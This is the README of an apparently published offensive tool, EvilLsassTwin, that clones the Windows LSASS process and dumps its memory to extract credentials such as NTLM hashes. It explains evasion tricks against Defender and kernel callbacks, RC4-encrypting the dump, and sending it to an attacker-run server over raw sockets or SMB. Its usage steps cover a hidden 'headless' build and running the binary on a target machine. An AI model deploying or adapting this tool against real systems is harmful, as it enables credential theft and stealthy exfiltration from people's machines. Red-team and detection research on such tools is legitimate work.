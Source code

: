 # Evil Lsass Twin
Originally, a port of the [Dirty Vanity](https://github.com/deepinstinct/Dirty-Vanity) project to fork and dump the LSASS process. Has been updated upon further research to attempt to duplicate open handles to LSASS. If this fails (and it likely will), it will attempt to obtain a handle to LSASS through the `NtGetNextProcess` function instead of `OpenProcess`/`NtOpenProcess`. 

Nim, by default (or rather the Winim module) makes use of dynamic function resolution for Windows API functions, ~~so the IAT should only include a reference to GetProcAddress and LoadLibrary (for better or worse)~~ so the IAT will only contain certain functions standard across all Nim executables.

The process cloning functionality has been updated to use make use of `NtCreateProcessEx` instead of `RtlCreateProcessReflection` as this only requires `PROCESS_CREATE_PROCESS` and does not create an initial thread (thereby triggering process creation kernel callbacks). 

Partial implementation of Process Ghosting technique is included to make use of the Delete On Close functionality. 

How this works: 
1. `MiniDumpWriteDump` function is used to dump forked LSASS process's memory into a file on-disk.
2. File is marked with Delete on Close and does not allow other threads to access it simultaneously.
3. File is mapped into memory
4. File is deleted after open handle to it is closed
5. Mapped Data (memory dump) is encrypted and saved to disk *or* sent to server

This will only occur if the tool is set to use the standard Win32 `MiniDumpWriteDump` API function. By default, EvilLsassTwin uses a custom minidump function that will keep the data in memory unless set to save to disk. This allows EvilLsassTwin to keep the dump size to a minimum. 

Requires the `winim` and `ptr_math` modules. Several IOCs and opportunities for detection since this simple port was not originally built with stealth in mind. However, as noted above, this project _does_ include some stealthy features. 

Tested on Windows 10 22H2 and Windows 11 with Defender enabled (Cloud Analysis disabled).

Must be run from an Administrator Command Prompt or Powershell as EvilLsassTwin depends on `SeDebugPrivilege`. 

_Note: SeDebugPrvilege is enabled by default on Elevated Powershell._

_Note: Tool will **not** work against PPL (try the PPL branch) or Credential Guard. Tool also will not work when EDRs patch LSASS a la [Cortex XDR Modifications](https://www.paloaltonetworks.com/blog/security-operations/detecting-credential-stealing-with-cortex-xdr/)_

# Usage
This project was developed and tested with Nim 1.6.10 and 1.6.14. It is **not** compatible with Nim 2.0.

1. Install Dependencies with `nim dependencies` or through Nimble package manager (Atlas not yet tested)
2. Configure settings from lines 15 to 25. Settings include Server IP and Port, SMB Share Name, saving to disk, minidump method (*set to either **useCustom** or **useTraditional***), and exfil method (*set to either **useRaw** or **useSMB***)
4. Compile the project with `nim build`. _Note: this assumes EvilTwinServer will be run on a Linux machine. Manual compilation required otherwise_
5. If **not** set to save to file: `chmod +x EvilTwinServer && ./EvilTwinServer`
6. Transfer EvilLsassTwin.exe to (Windows) target machine and Run.

# Why's
## Why RC4?
Simplicity. A simple call to `SystemFunction032` is all it takes to implement. Nothing else to code. Entropy isn't sky-high. And it's good enough.

## Why code changes instead of command-line parameters?
First, I don't like Nim's command-line parsing options. Second, if you can't make those simple changes to the code, you probably shouldn't be using this. Third, no command-line parameters means no need for command-line spoofing.

## Why Nim?
I wrote an entire blog post about this. See: [Why Nim? - RePRGM](https://reprgm.github.io/2023/02/13/why-nim/)

# Important Notes
By default, EvilLsassTwin *will* use RC4 to encrypt the dump and display the encryption key in hexadecimal in the console. EvilTwinServer will attempt to decrypt the dump file automatically for you. However, if this fails, you will have to decrypt the file yourself. This can be done with OpenSSL. Take note of the command used in either the terminal (if running) or in the `EvilTwinServer.nim` file!

Alternatively, if you **don't** want a console screen popping up on the target machine, a "headless" build can be done. Take note of the build command in the `config.nims` file and add option `--app:gui`. Doing so will require you to either use EvilTwinServer or create a custom script/application. This is due to EvilLsassTwin sending the encryption key and then the dump in that order. Should another application be used without modification to the `EvilLsassTwin.nim` file, both encryption key and data are likely to be included in the same file, rendering the dump file useless without even further modification. 

EvilTwinServer is **not** required with a standard build. With a simple change to the `EvilLsassTwin.nim` file, another application may be used to receive the encrypted dump file. To do so, simply comment out or remove the following lines: 
```nim
echo "[!] Sending Encryption Key to Server..."
        if not socket.trySend(rc4KeyStr):
            echo "[-] Could Not Send Encryption Key to Server!"
```

Lastly, the custom minidump function is not complete as of now. This means **only** NTLM hashes will be found by tools such as Mimikatz and Pypykatz. For anything else, you will need to configure the tool to use the `MiniDumpWriteDump` function which also will result in large (~50+ MB) dump files. It is because this custom function is not complete that the option to use the traditional API function is there.

# Resources
[Bill Demirkapi - Abusing Windows Implemention of Fork for Stealthy Memory Operations](https://billdemirkapi.me/abusing-windows-implementation-of-fork-for-stealthy-memory-operations/)

[Dirty Vanity](https://github.com/deepinstinct/Dirty-Vanity)

[TransactedSharpMiniDump](https://github.com/PorLaCola25/TransactedSharpMiniDump/tree/master)

[Rasta Mouse - Dumping LSASS with Duplicated Handles](https://rastamouse.me/dumping-lsass-with-duplicated-handles/)

[Rasta Mouse - Duplicating Handles in C#](https://rastamouse.me/duplicating-handles-in-csharp/)

[Splintercod3 - The Hidden Side of Seclogon - Part 2](https://splintercod3.blogspot.com/p/the-hidden-side-of-seclogon-part-2.html)

[Diversenok - The Definitive Guide to Process Cloning on Windows](https://diversenok.github.io/2023/04/20/Process-Cloning.html)

[NativeDump](https://github.com/ricardojoserf/NativeDump)

[NanoDump](https://github.com/fortra/nanodump)
